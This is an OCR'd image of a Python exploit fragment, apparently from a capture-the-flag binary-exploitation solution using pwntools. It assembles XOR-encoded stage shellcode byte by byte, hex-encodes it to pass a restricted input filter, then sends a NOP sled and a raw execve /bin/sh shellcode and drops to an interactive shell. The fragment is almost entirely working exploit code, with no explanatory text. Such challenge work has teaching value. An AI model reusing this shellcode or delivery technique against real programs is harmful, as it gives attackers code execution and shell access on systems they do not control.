 ```python
    shellcode += get_xor(0x48)
    shellcode += write_rdx_off(0x31)
    shellcode += get_xor(0xc7)
    shellcode += write_rdx_off(0x32)
    shellcode += get_xor(0xc2)
    shellcode += write_rdx_off(0x33)
    shellcode += get_xor(0x08)
    shellcode += write_rdx_off(0x35)
    shellcode += get_xor(0x48)
    shellcode += write_rdx_off(0x42)
    shellcode += get_xor(0x31)
    shellcode += write_rdx_off(0x43)
    shellcode += get_xor(0xc0)
    shellcode += write_rdx_off(0x44)
    shellcode += get_xor(0xf)
    shellcode += write_rdx_off(0x45)
    shellcode += get_xor(0x5)
    shellcode += write_rdx_off(0x46)
    #ensure our shellcode is of an even length
    if len(shellcode) % 2 == 1:
        shellcode += b"\x32\x43\x30" 
    return shellcode
    
    
#Helper for feeding shellcode into the program
def encode(msg):
    byted = b""
    print(msg)
    assert len(msg) % 2 == 0
    for i in range(0,len(msg),2):
        mapped = b"0123456789ABCDEF"
        a = mapped.index(msg[i])
        b = mapped.index(msg[i+1])
        #print(a, b)
        byted += bytearray([(a << 4) + b])
    return byted
    
    
code = make_shellcode()
print(len(code))
p.recvuntil("Data:")
p.sendline(encode(code))
#input("waiting")

#feed in a nop sled following by a /bin/sh shellcode
binsh = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05"

p.sendline(b"\x90"*0x300 +binsh)
p.interactive()
```
